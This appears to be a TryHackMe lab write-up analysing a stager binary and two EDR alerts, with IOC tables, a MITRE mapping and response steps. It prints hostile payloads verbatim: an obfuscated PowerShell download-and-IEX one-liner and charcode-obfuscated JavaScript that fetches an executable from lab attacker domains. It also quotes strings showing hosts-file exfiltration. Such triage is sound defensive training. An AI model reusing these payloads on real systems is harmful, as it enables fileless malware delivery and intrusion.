









# Shadow Trace - Malware Triage and IOC Extraction

---

## Environment

- **Platform**: TryHackMe SOC Analyst Learning Path
- **Room**: Shadow Trace
- **Analysis Host**: Windows VM (WIN-SRV-01.tryhackme.local)
- **Toolset**: DFIR Tools suite provided in the VM
- **Context**: Simulated night shift SOC triage of a suspicious binary found on a user machine, correlated with live EDR alerts

---

## Lab Objective

Triage a suspicious executable flagged on a user machine, extract indicators of compromise through static analysis and threat intelligence enrichment, decode obfuscated payloads from EDR alerts, and correlate all findings into a unified picture of attacker activity.

---

## Tools and Technologies

- **pestudio** - Static PE analysis, string extraction, import review
- **VirusTotal** - Hash and domain reputation, behavioral sandbox results
- **CyberChef** - Base64 decoding, charcode decoding

---

## Lab Content

### 1. Static Analysis of windows-update.exe

The binary was located at `C:\Users\DFIRUser\Desktop\windows-update.exe`. The first step before any deeper analysis is establishing the file's identity and confirming it is what it claims to be.

The file was loaded into pestudio for static examination.



**File identification:**

```
File name:    windows-update.exe
Type:         PE32+ executable (console) x86-64
Architecture: 64-bit
Size:         50176 bytes (49 KB)
Entropy:      5.789
Signature:    Microsoft Linker 14.38 / Visual Studio 2008
```

The `MZ` magic bytes (`4D 5A`) confirm this is a genuine Windows PE executable regardless of the filename. The entropy of 5.789 sits within the range expected for unobfuscated compiled code, meaning static analysis will be productive and the binary is not packed.

**SHA-256:**
```
b2a88de3e3bcfae4a4b38fa36e884c586b5cb2c2c283e71fba59efdb9ea64bfc
```

**Compilation timestamps:**
```
Compiler:  Fri Oct 03 03:13:45 2025 UTC
Debug:     Fri Oct 03 03:13:45 2025 UTC
```

The timestamps are consistent with each other, suggesting they have not been tampered with.

**Debug path (PDB artifact):**
```
C:\Users\User\source\repos\windows-update\x64\Release\windows-update.pdb
```

This path was baked into the binary at compile time and was not stripped before deployment. It confirms this is a custom-compiled binary built on the attacker's own development machine under a user account named `User`. This is an attribution artifact and rules out any possibility that this is a legitimate Microsoft component.

---

#### 1.1 Strings Analysis

The strings output revealed the full behavioral intent of the binary without execution.



**Download and execution chain:**

```
[*] Downloading to:
http://tryhatme.com/update/security-update.exe
security-update.exe
[!] Download failed. HRESULT:
[*] Executed file. Waiting...
[*] Execution complete. Deleting file...
[*] File deleted.
[!] Failed to get Downloads path
```

The binary is a stager. It downloads a second stage binary named `security-update.exe` from a remote server, executes it, then deletes it from disk to remove evidence of the download. The self-cleanup behavior is deliberate anti-forensics.

**C2 beaconing:**

```
Failed to connect to 192.168.1.83:22
Connected to 192.168.1.83:22 successfully.
Failed to connect to external-attacker.thm:25
Connected to external-attacker.thm:25 successfully.
[!] Failed to send alive response:
[*] Sent alive response.
```

The binary maintains two separate C2 channels: one to a hardcoded internal IP on port 22 and one to a domain on port 25. Neither port is being used for its standard protocol purpose. Port 22 and port 25 are used here as C2 transport channels rather than SSH or SMTP.

**Host file exfiltration:**

```
C:\Windows\System32\drivers\etc\hosts
[!] Failed to open hosts file.
[+] Hosts file exfiltrated to http://
responses.tryhatme.com
POST
Content-Type: application/x-www-form-urlencoded
Exfiltrator
```

The binary reads the local hosts file and exfiltrates its contents via HTTP POST to `responses.tryhatme.com`. The string `Exfiltrator` is a class or module name embedded in the binary, confirming this is a dedicated component of the malware's functionality.

**AV evasion - process enumeration targets:**

```
avp.exe
bdagent.exe
avg.exe
avguard.exe
MsMpEng.exe
```

These are the process names for Kaspersky, Bitdefender, AVG, Avast, and Windows Defender respectively. The binary enumerates running processes and checks against this list before acting, a standard sandbox and AV evasion technique.

**Encoded string:**

```
tryhatme.com/VEhNe3lvdV9nMHRfc29tZV9JT0NzX2ZyaWVuZH0=
```

The base64 portion was decoded using CyberChef. The result was one of the flags of the exercice (not relevant).



---

#### 1.2 Import Analysis

pestudio flagged the following imports as indicators of suspicious capability.

Grouped by function:

**Process enumeration (AV detection):**
```
CreateToolhelp32Snapshot
Process32First
Process32Next
OpenProcess
K32GetModuleBaseName
K32EnumProcesses
K32EnumProcessModules
GetCurrentProcess
GetCurrentProcessId
GetCurrentThreadId
```

**File system operations:**
```
FindFirstFile
FindNextFile
DeleteFile
SHGetKnownFolderPath
```

**Execution:**
```
CreateProcess
ShellExecuteEx
```

**Network and download:**
```
URLDownloadToFile
InternetOpen
InternetConnect
HttpOpenRequest
HttpSendRequest
```

**Socket communication:**
```
WS2_32.dll
InetPton
getaddrinfo
```

`WS2_32.dll` is the Windows Sockets library. Its presence alongside `getaddrinfo` and `InetPton` confirms the low-level socket operations used for the C2 beacon, separate from the WinINet stack used for the HTTP download and exfiltration components. The binary uses two distinct network communication layers.

The imports confirm and validate every behavioral indicator found in the strings output. Nothing in the strings was speculative - each capability is backed by the corresponding Windows API imports.

---

### 2. IOC Enrichment - VirusTotal

The SHA-256 hash was searched on VirusTotal.



**Detection ratio: 45/71**

The sample is definitively malicious across major AV vendors. The high detection ratio rules out a false positive.



**Additional hashes confirmed:**
```
MD5:    be951d941adaab33865c3ed425ef26c9
SHA-1:  f66752334146e185acca011c1ae76bdf1ff6931d
```

**Alternate filename identified:** `g1jrk4h.exe`

The sample was previously submitted under a randomized filename before being deployed as `windows-update.exe`. This pattern is consistent with an attacker testing detection rates on VirusTotal prior to operational deployment.

**Registry key of note from sandbox behavior:**
```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\windows-update.exe
```

The Image File Execution Options key can be abused to redirect or intercept process execution. Its presence in the behavioral report warrants attention during any remediation effort on the affected host.

**Memory pattern URLs confirmed by sandbox:**
```
http://tryhatme.com/update/security-update.exe
```

This matches what was extracted from strings, providing independent sandbox confirmation of the C2 URL.



**MITRE ATT&CK techniques identified by VirusTotal sandbox:**

| Tactic | Technique |
|---|---|
| Discovery | Process Discovery, File and Directory Discovery, System Information Discovery, Software Discovery |
| Execution | Command and Scripting Interpreter, Shared Modules |
| Command and Control | Application Layer Protocol, C2 Communication |
| Collection / Exfiltration | Read/Write File, Send Data |



The domain and IP IOCs returned no results on VirusTotal. `tryhatme.com` and `reallysecureupdate.tryhatme.com` are lab-specific domains with no prior threat intelligence history. `192.168.1.83` is a private RFC1918 address not indexed by VirusTotal. The null results do not reduce confidence in these IOCs as they are confirmed directly by the binary's own strings and sandbox execution.

---

### 3. Alert Analysis

Both alerts fired on the same host under the same account, one hour apart. This is not coincidental. The `CORPsvc_backup` service account on `WIN-SRV-01.tryhackme.local` is either compromised or is the execution context for a process that has been hijacked.

---

#### 3.1 Alert 1 - Suspicious PowerShell Execution

```
Time:     Jun 9th 2026 at 12:39
Severity: Critical
Rule:     Suspicious PowerShell execution
Host:     WIN-SRV-01.tryhackme.local
Account:  CORPsvc_backup
Process:  powershell.exe
```

**Raw command:**
```powershell
(new-object system.net.webclient).DownloadString([Text.Encoding]::UTF8.GetString([Convert]::FromBase64String("aHR0cHM6Ly90cnloYXRtZS5jb20vZGV2L21haW4uZXhl"))) | IEX;
```

The command uses a double-layer obfuscation approach. The URL is base64 encoded and decoded at runtime using `[Convert]::FromBase64String`, then the decoded URL is passed to `DownloadString` which fetches the remote content, and the result is piped directly to `IEX` (Invoke-Expression) for in-memory execution.

**Base64 decode:**
```
aHR0cHM6Ly90cnloYXRtZS5jb20vZGV2L21haW4uZXhl
->
https://tryhatme.com/dev/main.exe
```



The decoded URL reveals a second staging payload being pulled from the same `tryhatme.com` infrastructure identified in the binary. The content of `main.exe` is fetched and executed entirely in memory via IEX, leaving no file artifact on disk. This is a fileless execution technique designed specifically to evade file-based detection.

The use of `system.net.webclient` combined with `IEX` and base64 encoding is a textbook PowerShell stager pattern. The execution under `CORPsvc_backup` indicates the attacker has either compromised this service account or is running under a process already executing in its context.

---

#### 3.2 Alert 2 - Suspicious Browser Download

```
Time:     Jun 9th 2026 at 13:39
Severity: Critical
Rule:     Suspicious Browser Download
Host:     WIN-SRV-01.tryhackme.local
Account:  CORPsvc_backup
Process:  chrome.exe (browser JavaScript execution)
```

**Raw command:**
```javascript
fetch([104,116,116,112,115,58,47,47,114,101,97,108,108,121,115,101,99,117,
114,101,117,112,100,97,116,101,46,116,114,121,104,97,116,109,101,46,99,111,
109,47,117,112,100,97,116,101,46,101,120,101]).map(c=>String.fromCharCode(c))
.join('')).then(r=>r.blob()).then(b=>{const u=URL.createObjectURL(b);
const a=document.createElement('a');a.href=u;a.download='test.txt';
document.body.appendChild(a);a.click();a.remove();URL.revokeObjectURL(u);});
```

The URL is obfuscated as a decimal ASCII charcode array. Each number corresponds to one character. The JavaScript `.map(c=>String.fromCharCode(c)).join('')` converts the array back to a string at runtime, reconstructing the URL without it ever appearing as readable text in the source.

**Charcode decode (Base 10, space delimited):**
```
104 116 116 112 115 58 47 47 114 101 97 108 108 121 115 101 99 117 114 101
117 112 100 97 116 101 46 116 114 121 104 97 116 109 101 46 99 111 109 47
117 112 100 97 116 101 46 101 120 101
->
https://reallysecureupdate.tryhatme.com/update.exe
```



The JavaScript then constructs a fake anchor element with `a.download='test.txt'`, programmatically clicks it to trigger a browser save, and immediately removes the element. The file saved to disk is named `test.txt` regardless of the actual content being an executable, a filename mismatch intended to avoid user suspicion and bypass simple extension-based filtering.

The URL resolves to a subdomain of `tryhatme.com`, the same C2 infrastructure seen throughout this investigation. The one hour gap between Alert 1 and Alert 2 is consistent with a staged attack progression: the PowerShell stager runs first, and a browser-based delivery mechanism is used as a secondary or parallel delivery channel one hour later.

---

### 4. IOC Summary

| Type | Value | Source |
|---|---|---|
| SHA-256 | `b2a88de3e3bcfae4a4b38fa36e884c586b5cb2c2c283e71fba59efdb9ea64bfc` | Binary hash |
| MD5 | `be951d941adaab33865c3ed425ef26c9` | VirusTotal |
| SHA-1 | `f66752334146e185acca011c1ae76bdf1ff6931d` | VirusTotal |
| URL | `http://tryhatme.com/update/security-update.exe` | Binary strings |
| URL | `https://tryhatme.com/dev/main.exe` | Alert 1 decoded |
| URL | `https://reallysecureupdate.tryhatme.com/update.exe` | Alert 2 decoded |
| Domain | `tryhatme.com` | Binary strings / Alerts |
| Domain | `responses.tryhatme.com` | Binary strings |
| Domain | `reallysecureupdate.tryhatme.com` | Alert 2 decoded |
| Domain | `external-attacker.thm` | Binary strings |
| IP | `192.168.1.83` | Binary strings |
| File | `security-update.exe` | Binary strings |
| File | `main.exe` | Alert 1 decoded |
| File | `update.exe` | Alert 2 decoded |
| File | `test.txt` | Alert 2 download name |
| Host | `WIN-SRV-01.tryhackme.local` | Alert logs |
| Account | `CORPsvc_backup` | Alert logs |

---

## Implications for a SOC Analyst

**The binary is a multi-function stager, not a single-purpose tool.** It combines four distinct capabilities in one executable: AV process detection, second stage payload delivery, C2 beaconing, and host file exfiltration. This level of functionality in a 49KB binary indicates purpose-built custom malware, not a commodity tool. The stripped PDB path confirms it was compiled specifically for this operation.

**The attacker tested detection rates before deployment.** The alternate filename `g1jrk4h.exe` on VirusTotal indicates the sample was submitted under a randomized name prior to being renamed `windows-update.exe` and deployed. The name `windows-update.exe` is a deliberate masquerade targeting analyst fatigue and user trust in Windows update processes.

**The `CORPsvc_backup` account requires immediate investigation.** Both alerts fired under this service account one hour apart on the same host. Service accounts used for backup operations typically have elevated privileges and broad file system access, making them high-value targets for attackers seeking to maximise their reach. The account should be treated as compromised until proven otherwise. Credential rotation and session audit are immediate priorities.

**The attack chain reconstructed across all three data sources is:**

```
windows-update.exe deployed on WIN-SRV-01
  -> AV process check (evade detection)
  -> Download security-update.exe from tryhatme.com (second stage)
  -> Execute and delete second stage (anti-forensics)
  -> Beacon to external-attacker.thm:25 and 192.168.1.83:22 (C2)
  -> Exfiltrate hosts file to responses.tryhatme.com (reconnaissance)

Parallel activity under CORPsvc_backup:
  -> PowerShell stager pulls main.exe from tryhatme.com/dev (fileless, in-memory)
  -> Browser JavaScript pulls update.exe from reallysecureupdate.tryhatme.com (saved as test.txt)
```

**MITRE ATT&CK coverage:**

| Tactic | Technique | Evidence |
|---|---|---|
| TA0002 Execution | T1059.001 PowerShell | Alert 1 IEX DownloadString |
| TA0002 Execution | T1218.005 Mshta / Signed Binary | rundll32, ShellExecuteEx imports |
| TA0005 Defense Evasion | T1027 Obfuscated Files | Base64 and charcode encoding in alerts |
| TA0005 Defense Evasion | T1070.004 File Deletion | Self-delete after execution |
| TA0005 Defense Evasion | T1036 Masquerading | windows-update.exe naming |
| TA0007 Discovery | T1057 Process Discovery | AV enumeration via CreateToolhelp32Snapshot |
| TA0009 Collection | T1005 Data from Local System | Hosts file read |
| TA0010 Exfiltration | T1041 Exfiltration Over C2 | HTTP POST to responses.tryhatme.com |
| TA0011 Command and Control | T1071 Application Layer Protocol | HTTP/socket C2 channels |

**Recommended response actions:**

1. Isolate `WIN-SRV-01.tryhackme.local` immediately to prevent lateral movement
2. Rotate credentials for `CORPsvc_backup` and audit all sessions and actions taken under this account
3. Block all `tryhatme.com` subdomains and `external-attacker.thm` at the perimeter
4. Block `192.168.1.83` at the internal firewall and investigate what host owns this IP
5. Hunt for `security-update.exe`, `main.exe`, `update.exe`, and `test.txt` across all endpoints
6. Search SIEM for the hash and all identified URLs across the full log retention window to determine if other hosts were reached
7. Review Image File Execution Options registry key on the affected host for persistence mechanisms
8. Submit all identified URLs to the threat intelligence platform for organisation-wide blocking

---

## Conclusion

This investigation demonstrates how a combination of static binary analysis, threat intelligence enrichment, and alert decoding can reconstruct an attacker's full activity chain from limited initial evidence. The suspicious file was not simply malicious in isolation. It was one component of a coordinated operation involving multiple delivery mechanisms, C2 infrastructure, and a compromised service account. Correlating the binary IOCs with the alert data revealed that the same infrastructure served both the file-based and fileless delivery channels, confirming a single threat actor behind all observed activity.

---

*TryHackMe - Shadow Trace | SOC Analyst Path | Malware Concepts for SOC Module*

---